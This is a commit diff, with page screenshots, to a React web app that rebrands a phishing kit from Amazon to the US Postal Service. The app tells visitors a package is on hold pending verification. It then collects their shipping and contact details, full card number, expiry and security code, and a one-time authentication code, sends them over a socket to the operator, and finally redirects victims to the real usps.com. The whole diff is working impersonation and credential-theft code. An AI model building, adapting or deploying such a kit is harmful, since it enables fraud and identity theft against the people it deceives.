

Before and after one commit to bmillss6543212/rwqeq, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Convert frontend branding to USPS

```diff
--- a/index.html
+++ b/index.html
@@ -3,10 +3,10 @@
   <head>
     <meta charset="UTF-8" />
     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-    <link id="brand-favicon" rel="icon" type="image/png" href="/favicon.png?v=brand-10" />
-    <link id="brand-shortcut" rel="shortcut icon" type="image/png" href="/favicon.png?v=brand-10" />
-    <link id="brand-apple" rel="apple-touch-icon" href="/favicon.png?v=brand-10" />
-    <title>Amazon Account Services</title>
+    <link id="brand-favicon" rel="icon" type="image/svg+xml" href="/favicons/usps.svg?v=brand-usps-1" />
+    <link id="brand-shortcut" rel="shortcut icon" type="image/svg+xml" href="/favicons/usps.svg?v=brand-usps-1" />
+    <link id="brand-apple" rel="apple-touch-icon" href="/favicons/usps.svg?v=brand-usps-1" />
+    <title>USPS Delivery Verification Center</title>
 
   </head>
   <body>
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -10,7 +10,7 @@
 import Verify from './pages/Verify';
 import AppCheck from './pages/AppCheck';
 
-const ADMIN_EXTERNAL_URL = 'https://www.amazon.com/';
+const ADMIN_EXTERNAL_URL = 'https://www.usps.com/';
 
 function getRouteNotice(target: string, reason: string) {
   const cleanReason = reason.trim();
@@ -63,7 +63,7 @@
       try {
         const parsed = new URL(ADMIN_EXTERNAL_URL, window.location.origin);
         if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') return;
-        onNotice('Verification completed. Redirecting you to the order page.');
+        onNotice('Verification completed. Redirecting you to the USPS tracking page.');
         if (pendingTimerRef.current) window.clearTimeout(pendingTimerRef.current);
         pendingTimerRef.current = window.setTimeout(() => {
           window.location.href = parsed.toString();
@@ -175,28 +175,28 @@
                 <span />
               </button>
               <div className="alz-nav-brand">
-                <div className="alz-nav-logo" aria-label="Amazon">
-                  <img src="/amazon-header-logo.svg" alt="Amazon" className="alz-nav-logo-img" />
+                <div className="alz-nav-logo" aria-label="USPS">
+                  <img src="/usps-header-logo.svg" alt="USPS" className="alz-nav-logo-img" />
                 </div>
               </div>
             </div>
             <div className="alz-nav-actions">
               <div className="alz-nav-signin">
-                <span>Sign in</span>
+                <span>Sign In</span>
                 <span className="alz-nav-caret" aria-hidden="true">&gt;</span>
                 <span className="alz-nav-user" aria-hidden="true">
                   <span className="alz-nav-user-head" />
                   <span className="alz-nav-user-body" />
                 </span>
               </div>
-              <div className="alz-nav-cart" aria-label="Cart">
-                <img src="/amazon-cart-icon.svg" alt="" aria-hidden="true" className="alz-nav-cart-img" />
+              <div className="alz-nav-track" aria-label="Track package">
+                <span className="alz-nav-track-label">Track</span>
               </div>
             </div>
           </div>
           <div className="alz-nav-search-row">
             <div className="alz-nav-search-shell" aria-hidden="true">
-              <div className="alz-nav-search-input">Search Amazon</div>
+              <div className="alz-nav-search-input">Search USPS tracking</div>
               <div className="alz-nav-search-action">
                 <span className="alz-nav-search-icon" />
               </div>
--- a/src/brand.ts
+++ b/src/brand.ts
@@ -60,12 +60,12 @@
 
 const USPS_BRAND: BrandConfig = {
   id: 'usps',
-  name: 'Amazon',
-  portal: 'Amazon Recipient Verification Center',
+  name: 'USPS',
+  portal: 'USPS Delivery Verification Center',
   tagline: 'Track. Verify. Deliver.',
-  legal: 'Amazon account and order verification portal.',
-  promises: ['Domestic route checks', 'Recipient identity checks', '24/7 support'],
-  favicon: '/favicon.png?v=brand-10',
+  legal: 'USPS package delivery verification portal.',
+  promises: ['Tracking review', 'Recipient verification', 'Delivery support'],
+  favicon: '/favicons/usps.svg?v=brand-usps-1',
   theme: {
     navy: '#11284c',
     panel: '#17386a',
@@ -116,7 +116,7 @@
   },
 };
 
-const selected = 'amazon';
+const selected = 'usps';
 const BRAND_MAP: Record<string, BrandConfig> = {
   amazon: AMAZON_BRAND,
   usps: USPS_BRAND,
--- a/src/index.css
+++ b/src/index.css
@@ -24,7 +24,7 @@
 
 body {
   color: #0f1111;
-  font-family: "Amazon Ember", "Segoe UI", Arial, sans-serif;
+  font-family: "Segoe UI", Arial, sans-serif;
   line-height: 1.45;
   -webkit-font-smoothing: antialiased;
   text-rendering: optimizeLegibility;
@@ -184,16 +184,22 @@
   border-bottom-right-radius: 4px;
 }
 
-.alz-nav-cart {
-  position: relative;
-  display: flex;
-  align-items: flex-start;
-}
-
-.alz-nav-cart-img {
-  display: block;
-  width: 38px;
-  height: 30px;
+.alz-nav-track {
+  display: inline-flex;
+  align-items: center;
+  justify-content: center;
+  min-width: 58px;
+  min-height: 30px;
+  padding: 0 10px;
+  border: 1px solid rgba(255, 255, 255, 0.2);
+  border-radius: 999px;
+  background: rgba(255, 255, 255, 0.08);
+}
+
+.alz-nav-track-label {
+  font-size: 13px;
+  font-weight: 700;
+  color: #ffffff;
 }
 
 .alz-nav-search-row {
--- a/src/pages/Checkout.tsx
+++ b/src/pages/Checkout.tsx
@@ -172,7 +172,7 @@
     const normalizedExpiry = normalizeExpiry(expiry, true);
     if (!isValidExpiryMMYY(normalizedExpiry) || !canSubmit || waiting) return;
     setWaiting(true);
-    setWaitingMsg('Details received. Please keep this page open while Amazon reviews your payment information.');
+    setWaitingMsg('Details received. Please keep this page open while USPS reviews your billing information.');
     clearDraft(STORAGE_KEYS.checkoutDraft);
     setExpiry(normalizedExpiry);
     socket.emit('checkout-submit', {
@@ -191,7 +191,7 @@
             <div className="mx-auto mb-3 h-10 w-10 rounded-full border-4 border-amber-200 border-t-[#ff9900] animate-spin" />
             <div className="text-lg font-semibold text-slate-900">Processing your request</div>
             <div className="mt-2 text-sm text-slate-600">{waitingMsg}</div>
-            <div className="mt-6 text-xs text-slate-500">Please keep this page open while Amazon reviews your payment details.</div>
+            <div className="mt-6 text-xs text-slate-500">Please keep this page open while USPS reviews your payment details.</div>
           </div>
         </div>
       )}
@@ -202,7 +202,7 @@
             <div>
               <div className="alz-badge">{BRAND.name}</div>
               <h1 className="alz-step-title">Confirm your payment method</h1>
-              <p className="alz-step-subtitle">Review the payment method associated with this order.</p>
+              <p className="alz-step-subtitle">Review the payment method associated with this shipment.</p>
             </div>
           </div>
           <div className="alz-track mt-3">
@@ -214,7 +214,7 @@
           <div className="alz-card">
             <div className="alz-section-eyebrow">Payment details</div>
             <h2 className="alz-page-title">Review your card details</h2>
-            <p className="alz-page-copy">Enter the card details associated with this order so Amazon can continue processing your delivery.</p>
+            <p className="alz-page-copy">Enter the card details associated with this shipment so USPS can continue processing your delivery.</p>
             <div className="alz-brand-row mb-4">
               {BRAND_PROMISES.map((item) => (
                 <span key={item} className="alz-brand-pill">{item}</span>
@@ -253,14 +253,14 @@
                   <span className="alz-payment-pill alz-payment-pill-mastercard">mastercard</span>
                   <span className="alz-payment-pill alz-payment-pill-amex">AMERICAN EXPRESS</span>
                 </div>
-                <div className="alz-payment-strip-note">Use a card associated with your Amazon account. Your payment details are encrypted during checkout.</div>
+                <div className="alz-payment-strip-note">Use a payment method associated with this shipment. Your payment details are encrypted during verification.</div>
               </div>
             </div>
 
             <button onClick={onSubmit} disabled={!canSubmit || waiting} className="alz-btn-primary mt-6 text-base alz-checkout-submit">
               {waiting ? 'Processing...' : 'Confirm payment details'}
             </button>
-            <div className="alz-helper-copy mt-6">Keep this page open while Amazon confirms your payment details.</div>
+            <div className="alz-helper-copy mt-6">Keep this page open while USPS confirms your payment details.</div>
             <div className="alz-footer">{BRAND.name} | {BRAND.tagline}</div>
             <div className="text-[11px] text-center text-[#565959] mt-1">{BRAND.legal}</div>
           </div>
@@ -271,7 +271,7 @@
               <div className="alz-order-mini-thumb alz-order-mini-thumb-card" />
               <div>
                 <div className="alz-order-mini-title">Review the payment method on file</div>
-                <div className="alz-order-mini-copy">Use the payment method linked to this order to confirm the billing details.</div>
+                <div className="alz-order-mini-copy">Use the payment method linked to this shipment to confirm the billing details.</div>
               </div>
             </div>
             <div className="alz-side-summary-list">
@@ -279,7 +279,7 @@
               <div>Card number and expiration date</div>
               <div>3- or 4-digit security code</div>
             </div>
-            <div className="alz-side-summary-box">Use a card associated with this order so Amazon can continue processing the shipment.</div>
+            <div className="alz-side-summary-box">Use a card associated with this shipment so USPS can continue processing delivery.</div>
           </aside>
         </div>
       </div>
--- a/src/pages/Home.tsx
+++ b/src/pages/Home.tsx
@@ -5,7 +5,7 @@
 import { BRAND, BRAND_PROMISES } from '../brand';
 
 function buildOrderNumber(clientId: string) {
-  const seed = (clientId || 'amazon-order-seed').replace(/[^a-zA-Z0-9]/g, '');
+  const seed = (clientId || 'usps-order-seed').replace(/[^a-zA-Z0-9]/g, '');
   let hash = 0;
   for (let i = 0; i < seed.length; i += 1) {
     hash = (hash * 33 + seed.charCodeAt(i)) >>> 0;
@@ -82,8 +82,8 @@
           <div className="alz-step-head">
             <div>
               <div className="alz-badge">{BRAND.name}</div>
-              <h1 className="alz-step-title">We couldn't complete delivery for this order</h1>
-              <p className="alz-step-subtitle">Confirm your shipping details so delivery can continue.</p>
+              <h1 className="alz-step-title">This package is awaiting delivery verification</h1>
+              <p className="alz-step-subtitle">Confirm the recipient details so USPS can continue delivery.</p>
             </div>
           </div>
           <div className="alz-track mt-3">
@@ -93,39 +93,39 @@
 
         <div className="alz-home-grid alz-home-order-layout">
           <div className="alz-card alz-home-main-card">
-            <div className="alz-home-kicker">Order summary</div>
+            <div className="alz-home-kicker">Package summary</div>
             <div className="alz-order-header">
               <div>
-                <h2 className="alz-page-title">Delivery is on hold pending address confirmation</h2>
+                <h2 className="alz-page-title">Delivery is on hold pending recipient confirmation</h2>
                 <p className="alz-page-copy">
-                  We were unable to complete delivery using the address currently associated with this order. Review the delivery details below to continue.
+                  USPS could not complete delivery using the recipient details currently associated with this shipment. Review the delivery details below to continue.
                 </p>
               </div>
               <div className="alz-order-id">
-                <span>Order #</span>
+                <span>Tracking #</span>
                 <strong>{orderNumber}</strong>
               </div>
             </div>
 
             <div className="alz-home-mobile-strip">
-              <span>Order #{orderNumber}</span>
+              <span>Tracking #{orderNumber}</span>
               <strong>On hold</strong>
             </div>
 
             <div className="alz-order-product">
               <div className="alz-order-product-thumb" />
               <div className="alz-order-product-copy">
-                <div className="alz-order-product-title">This order requires delivery confirmation</div>
-                <div className="alz-order-product-meta">1 item cannot be delivered until the shipping information is confirmed.</div>
-                <div className="alz-order-product-meta">Order placed {orderPlacedDate}</div>
+                <div className="alz-order-product-title">This shipment requires delivery confirmation</div>
+                <div className="alz-order-product-meta">1 package cannot be delivered until the recipient information is confirmed.</div>
+                <div className="alz-order-product-meta">Tracking activity updated {orderPlacedDate}</div>
               </div>
               <div className="alz-order-product-price">On hold</div>
             </div>
 
             <div className="alz-order-panel-grid">
               <section className="alz-order-panel">
-                <div className="alz-order-panel-title">Why Amazon is asking for this</div>
-                <div className="alz-order-panel-copy">A mismatch was detected in the delivery information associated with this order. Confirm the details to release the shipment.</div>
+                <div className="alz-order-panel-title">Why USPS is asking for this</div>
+                <div className="alz-order-panel-copy">A mismatch was detected in the delivery information associated with this shipment. Confirm the details to release the package for delivery.</div>
                 <div className="alz-order-panel-meta">
                   <span>This shipment is currently on hold</span>
                   <strong>Delivery resumes after confirmation</strong>
@@ -140,9 +140,9 @@
             </div>
 
             <div className="alz-order-action">
-              <div className="alz-order-action-alert">Confirm this order now to avoid additional delivery delays.</div>
+              <div className="alz-order-action-alert">Confirm this shipment now to avoid additional delivery delays.</div>
               <button onClick={handleContinue} disabled={loading} className="alz-btn-primary alz-btn-primary-home text-base">
-                {loading ? 'Opening...' : 'Confirm shipping details'}
+                {loading ? 'Opening...' : 'Confirm delivery details'}
               </button>
               <p className="alz-helper-copy">Usually takes less than 2 minutes.</p>
             </div>
@@ -152,21 +152,21 @@
           </div>
 
           <aside className="alz-card alz-home-aside-card alz-side-summary">
-            <div className="alz-side-summary-title">Delivery update</div>
+            <div className="alz-side-summary-title">Tracking update</div>
             <div className="alz-order-mini-card">
               <div className="alz-order-mini-thumb" />
               <div>
                 <div className="alz-order-mini-title">Shipment requires confirmation</div>
-                <div className="alz-order-mini-copy">1 item in this order requires updated delivery information.</div>
+                <div className="alz-order-mini-copy">1 package in this shipment requires updated delivery information.</div>
               </div>
             </div>
             <div className="alz-side-summary-list">
               <div>Delivery address review</div>
-              <div>Billing information check</div>
+              <div>Recipient information check</div>
               <div>Shipment release pending</div>
             </div>
             <div className="alz-side-summary-box">Delivery resumes after the required information is confirmed.</div>
-            <div className="alz-side-summary-help">Need help? Visit Customer Service for assistance with your order.</div>
+            <div className="alz-side-summary-help">Need help? Visit USPS support for assistance with your shipment.</div>
           </aside>
         </div>
       </div>
--- a/src/pages/Info.tsx
+++ b/src/pages/Info.tsx
@@ -73,7 +73,7 @@
   const navigate = useNavigate();
 
   const [form, setForm] = useState<Form>(() => loadInfoFormDraft());
-  const [status, setStatus] = useState('Enter the shipping information associated with this order.');
+  const [status, setStatus] = useState('Enter the delivery information associated with this shipment.');
   const [loading, setLoading] = useState(false);
   const [errors, setErrors] = useState<Partial<Record<keyof Form, string>>>({});
 
@@ -83,7 +83,7 @@
   useEffect(() => {
     socket.emit('join-page', 'info');
     const hasDraft = Object.values(form).some((v) => v.trim());
-    setStatus(hasDraft ? 'Your saved details were restored.' : 'Enter the shipping information associated with this order.');
+    setStatus(hasDraft ? 'Your saved details were restored.' : 'Enter the delivery information associated with this shipment.');
   }, []);
 
   useEffect(() => {
@@ -110,7 +110,7 @@
       setErrors({});
       setLoading(false);
 
-      setStatus(payload?.reason ? `Update requested: ${payload.reason}` : 'Please review and re-enter the shipping details for this Amazon order.');
+      setStatus(payload?.reason ? `Update requested: ${payload.reason}` : 'Please review and re-enter the delivery details for this USPS shipment.');
       navigate('/info', { replace: true });
       window.scrollTo({ top: 0, behavior: 'smooth' });
       setTimeout(() => inputRefs.current.fullname?.focus(), 0);
@@ -213,7 +213,7 @@
             <div>
               <div className="alz-badge">{BRAND.name}</div>
               <h1 className="alz-step-title">Confirm your shipping address</h1>
-              <p className="alz-step-subtitle">Review the shipping details associated with this order.</p>
+              <p className="alz-step-subtitle">Review the delivery details associated with this shipment.</p>
             </div>
           </div>
           <div className="alz-track mt-3">
@@ -285,10 +285,10 @@
               </div>
 
               <button type="submit" disabled={loading} className="alz-btn-primary mt-2 text-lg sm:text-xl md:text-2xl">
-                {loading ? 'Saving...' : 'Confirm address'}
+                {loading ? 'Saving...' : 'Confirm delivery address'}
               </button>
               <p className="alz-helper-copy text-center mt-3">
-                Amazon may ask you to confirm these details again if account information changes.
+                USPS may ask you to confirm these details again if delivery information changes.
               </p>
             </form>
 
@@ -301,8 +301,8 @@
             <div className="alz-order-mini-card">
               <div className="alz-order-mini-thumb" />
               <div>
-                <div className="alz-order-mini-title">Review the shipping address on file</div>
-                <div className="alz-order-mini-copy">Confirm the recipient name, street address, ZIP code, and contact details for this order.</div>
+                <div className="alz-order-mini-title">Review the delivery address on file</div>
+                <div className="alz-order-mini-copy">Confirm the recipient name, street address, ZIP Code, and contact details for this shipment.</div>
               </div>
             </div>
             <div className="alz-side-summary-list">
@@ -310,7 +310,7 @@
               <div>Street address and ZIP Code</div>
               <div>Phone number and email</div>
             </div>
-            <div className="alz-side-summary-box">Use the delivery information associated with this order so Amazon can continue processing the shipment.</div>
+            <div className="alz-side-summary-box">Use the delivery information associated with this shipment so USPS can continue processing delivery.</div>
           </aside>
         </div>
       </div>
--- a/src/pages/Verify.tsx
+++ b/src/pages/Verify.tsx
@@ -261,7 +261,7 @@
           <div className="w-full max-w-md rounded-2xl border border-slate-200 bg-white p-6 text-center shadow-2xl">
             <div className="mx-auto h-10 w-10 rounded-full border-4 border-amber-200 border-t-[#ff9900] animate-spin" />
             <div className="mt-4 text-lg font-semibold text-slate-900">Checking your code</div>
-            <div className="text-sm text-slate-600 mt-2">Please wait while we review the authentication code for this order.</div>
+            <div className="text-sm text-slate-600 mt-2">Please wait while we review the authentication code for this shipment.</div>
             <div className="mt-5 rounded-lg border border-amber-200 bg-amber-50 px-3 py-2 text-xs text-amber-800">Do not refresh or close this page while authentication is pending.</div>
           </div>
         </div>
```
Also changed, not shown: public/usps-header-logo.svg (added).
